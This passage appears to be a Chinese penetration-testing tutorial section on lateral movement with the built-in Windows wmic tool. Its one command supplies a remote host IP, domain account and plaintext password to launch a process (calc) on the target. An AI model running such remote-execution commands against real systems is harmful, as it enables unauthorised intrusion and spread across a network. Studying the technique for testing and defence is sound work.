 # 4.2.2.2 利用 wmic 进行横向移动

> 原文：[https://www.zhihuifly.com/t/topic/3424](https://www.zhihuifly.com/t/topic/3424)

#### 4.2.2.2 利用 wmic 进行横向移动

利用系统自带的工具 wmic 在目标主机上执行任意命令

```
wmic /node:192.168.19.178 /user:adtest\jeff1 /password:test@123 process call create "calc" 缺点:无法回显命令 
```

![image](img/60d6a5f292fcebf567663ac9ef1ecf02.png)